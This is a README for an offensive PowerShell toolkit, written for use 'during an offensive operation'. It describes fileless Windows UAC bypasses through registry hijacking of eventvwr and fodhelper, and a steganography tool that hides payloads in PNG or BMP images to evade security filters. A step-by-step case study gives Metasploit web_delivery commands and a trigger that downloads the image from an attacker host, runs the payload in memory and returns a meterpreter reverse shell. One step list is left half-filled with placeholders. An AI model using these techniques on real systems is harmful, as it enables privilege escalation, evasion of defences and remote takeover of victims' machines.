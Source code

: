 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

###Step-to-Step
    1 - Hide a PAYLOAD inside of a image (with a good resolution).
    2 - Store the image on a Webserver that target have access.
    3 - a.
      * b.
      * c.
      * d.
    4 - e.

###Step-to-Step
  1 - Hide a PAYLOAD inside of a image (with a good resolution).
  2 - Store the image on a Webserver that target have access.
  3 - Run the trigger (powershell command line) on the target.
    * The target will download the image to the memory.
    * The payload will be extract on the memory.
    * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
  4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
  1 - Open the msfconsole.
  msfconsole

  2 - Select and configure the web_delivery exploit.
  use exploit/multi/script/web_delivery  
  set windows/meterpreter/reverse_https
  set target 2
  set srvport 80
  set uripath /report
  set LHOST <IPADDRESS>
  set LPORT 443
  exploit

  3 - From your Windows machine download the powershell script from web_delivery.
  iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

  4 - Open the powershell and import the Set-Powerstego.ps1.
  Import-Module Set-Powerstego.ps1

  5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
  Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

  6 - Hide de payload inside the image.
  Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

  7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
  cd imagefolder
  pythom -m SimpleHTTPServer 8080

  8 - From the Windows workstation extract the payload to the disk.
  Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

  Open the file report2 and compare with the file report.  

  9 - Generate a command line to execute the payload on the target.
  Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

  Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
  After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.
